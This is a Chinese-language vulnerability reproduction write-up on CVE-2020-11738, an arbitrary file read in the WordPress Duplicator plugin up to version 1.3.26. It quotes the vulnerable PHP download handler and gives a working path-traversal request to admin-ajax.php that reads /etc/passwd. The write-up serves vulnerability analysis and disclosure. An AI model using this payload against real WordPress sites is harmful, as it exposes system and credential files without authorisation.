# WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

## 漏洞描述

WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>Duplicator <= v1.3.26</a-checkbox></br>

## 插件名

<a-checkbox checked>Duplicator</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip</a-checkbox></br>

## 漏洞复现

首先先查看注册的无需授权的action接口 `wp-content/plugins/duplicator/ctrls/class.web.services.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638523625856-1b37f8fa-0988-426e-a486-ce3aa4379097.png)

这里 `wp_ajax_nopriv_duplicator_download` 对应的函数名为 duplicator_download

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638523732618-c27820f7-da8f-42e7-9675-dcdf6dcbd156.png)

```php
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知 

DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取

```php
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638523863362-cd010b2b-66df-4243-b4e8-5834b6a9ce11.png)